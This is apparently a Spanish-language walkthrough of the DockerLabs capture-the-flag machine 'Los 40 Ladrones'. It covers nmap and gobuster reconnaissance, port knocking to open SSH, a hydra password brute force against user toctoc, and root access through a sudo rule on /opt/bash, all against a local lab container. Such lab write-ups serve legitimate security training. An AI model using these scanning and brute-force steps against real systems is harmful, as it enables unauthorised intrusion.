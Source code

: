 ```yaml
---
title: Los 40 Ladrones - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | firstatack        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/ae7e41b1-e887-406d-8751-4a808acf471e)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
  
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/0a3e3574-8913-430b-baca-e97c83524414)

# Exploración Web

Al acceder a la página web, encontramos el panel de Apache por defecto:

![image](https://github.com/user-attachments/assets/9c942317-b41e-4868-97b8-b63a17529026)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/f076364f-a5d0-48bf-bc24-ed629919f09d)

Al revisar el archivo `qdefense.txt`, encontramos un acertijo:

![image](https://github.com/user-attachments/assets/deadb7f9-a6aa-4ede-add4-cca86452232c)

## Port Knocking

Obtenemos que hay un user llamado `toctoc` y una secuencia de números que puede ser una secuencia de `Port Knocking`.  *El Port Knocking* es una técnica de seguridad en la que se debe enviar una secuencia específica de conexiones a ciertos puertos para desbloquear un puerto cerrado..

Para instalar `knock` en Kali:
```bash
sudo apt update && sudo apt install -y knockd

```
Realizamos `Port Knocking` a los puertos en la secuencia que hemos obtenido:

```bash
knock -v 172.17.0.2 7000 8000 9000
```
![image](https://github.com/user-attachments/assets/6c2ba48c-8a51-4e4f-9a0d-b44a2a27fdde)

Volvemos a escanear los puertos con `nmap`:

![image](https://github.com/user-attachments/assets/a4fec89a-29a7-4ebb-b4b3-630bc79ff826)

## Fuerza burta 
Después de realizar el `Port Knocking`, el puerto `22` (SSH) está abierto. Vamos a probar fuerza bruta con el usuario toctoc utilizando `hydra`:
```bash
hydra -l 'toctoc' -P /usr/share/wordlists/rockyou.txt  ssh://172.17.0.2 -t 4
```

![image](https://github.com/user-attachments/assets/68beeb4e-fea1-4817-b554-0004af0ac149)

Ya tenemos la contraseña del usuario `toctoc`.

# Escalada de privilegios
Al ejecutar `sudo -l`, vemos que podemos ejecutar `bash` como `root`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/d5ab1828-bacc-4b97-8afc-c18921aef600)

Ejecutamos el siguiente comando para acceder como `root`:

```bash
sudo /opt/bash 
```
![image](https://github.com/user-attachments/assets/1d781ad1-6481-4a0b-bcbf-b9f7262297b1)

¡Ya somos root!

